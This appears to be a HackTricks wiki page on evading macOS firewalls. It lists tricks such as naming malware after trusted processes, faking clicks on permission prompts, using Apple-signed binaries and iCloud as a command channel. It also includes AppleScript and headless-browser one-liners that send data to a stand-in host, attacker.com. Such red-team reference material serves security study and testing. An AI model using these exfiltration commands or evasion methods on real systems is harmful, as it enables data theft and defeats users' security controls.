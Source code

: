 # macOS Bypassing Firewalls

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Found techniques

The following techniques were found working in some macOS firewall apps.

### Abusing whitelist names

* For example calling the malware with names of well known macOS processes like **`launchd`**

### Synthetic Click

* If the firewall ask for permission to the user make the malware **click on allow**

### **Use Apple signed binaries**

* Like **`curl`**, but also others like **`whois`**

### Well known apple domains

The firewall could be allowing connections to well known apple domains such as **`apple.com`** or **`icloud.com`**. And iCloud could be used as a C2.

### Generic Bypass

Some ideas to try to bypass firewalls

### Check allowed traffic

Knowing the allowed traffic will help you identify potentially whitelisted domains or which applications are allowed to access them

```bash
lsof -i TCP -sTCP:ESTABLISHED
```

### Abusing DNS

DNS resolutions are done via **`mdnsreponder`** signed application which will probably vi allowed to contact DNS servers.

<figure><img src="../../.gitbook/assets/image (468).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### Via Browser apps

* **oascript**

```applescript
tell application "Safari"
    run
    tell application "Finder" to set visible of process "Safari" to false
    make new document
    set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```

* Google Chrome

{% code overflow="wrap" %}
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
{% endcode %}

* Firefox

```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```

* Safari

```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```

### Via processes injections

If you can **inject code into a process** that is allowed to connect to any server you could bypass the firewall protections:

{% content-ref url="macos-proces-abuse/" %}
[macos-proces-abuse](macos-proces-abuse/)
{% endcontent-ref %}

## References

* [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
